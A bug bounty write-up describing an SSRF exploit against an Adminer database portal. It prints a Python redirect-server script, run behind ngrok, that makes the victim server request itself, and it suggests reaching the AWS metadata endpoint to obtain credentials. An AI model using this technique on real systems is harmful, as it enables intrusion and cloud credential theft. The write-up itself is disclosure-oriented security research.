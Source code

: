 ```yaml
---
title: Adminer SSRF in the wild
tags:
  - Bug Bounty
---
```


Came across an Admirer portal while doing some subdomain enumerations in a bug bounty program.

![portal.png](https://Mizuno-Ai.wu-kan.cn/assets/image/2021/05/20/1tvAo2I9FK6sVLP.jpg)

    What is Adminer?

    Adminer (formerly phpMinAdmin) is a full-featured database management tool written in PHP. Conversely to [phpMyAdmin], it consists of a single file ready to deploy to the target server. Adminer is available for MySQL, MariaDB, PostgreSQL, SQLite, MS SQL, Oracle, Elasticsearch, MongoDB and others via plugin.

Took me few minutes of googling to know that the software version running has CVEs assigned, would they be patched on this instance tho? lets give it a try.

##Setting up the enviroment

Now that I think of it I could have done it with help of a collaborator and call it a day but I went for the good old and reliable ngrok, I also had to use a python script so my ngrok would redirect the petition and trick the server into "hitting" itself.

![setup.png](https://Mizuno-Ai.wu-kan.cn/assets/image/2021/05/20/1tvAo2I9FK6sVLP.jpg)

There we've the content of the script.

```cpp
#!/usr/bin/env python

import SimpleHTTPServer
import SocketServer
import sys
import argparse

def redirect_handler_factory(url):
    """
    Returns a request handler class that redirects to supplied `url`
    """
    class RedirectHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
       def do_GET(self):
           self.send_response(301)
           self.send_header('Location', url)
           self.end_headers()

       def do_POST(self):
           self.send_response(301)
           self.send_header('Location', url)
           self.end_headers()

    return RedirectHandler


def main():

    parser = argparse.ArgumentParser(description='HTTP redirect server')

    parser.add_argument('--port', '-p', action="store", type=int, default=80, help='port to listen on')
    parser.add_argument('--ip', '-i', action="store", default="", help='host interface to listen on')
    parser.add_argument('redirect_url', action="store")

    myargs = parser.parse_args()

    redirect_url = myargs.redirect_url
    port = myargs.port
    host = myargs.ip

    redirectHandler = redirect_handler_factory(redirect_url)

    handler = SocketServer.TCPServer((host, port), redirectHandler)
    print("serving at port %s" % port)
    handler.serve_forever()

if __name__ == "__main__":
    main()
```

I simply redirected the requests that Im gonna receive on my ngrok to the victim web server, port 443, whichs the Admirer portal itself in this case. If it worked we'd be able to reach the Admirer portal as if we were doing it from localhost.

##Results

We can appreciate in the output that we indeed reached the portal from inside, giving us access to internal services such as the "DEV version..".

Not only that we could use this to scan the internal network, search for some internal APIs and escalate the impact, maybe even just check for AWS credentials trying to reach http://169.254.169.254/latest/meta-data/instance-id if the victim had the service hosted on Amazon.

![localhost.png](https://Mizuno-Ai.wu-kan.cn/assets/image/2021/05/20/1tvAo2I9FK6sVLP.jpg)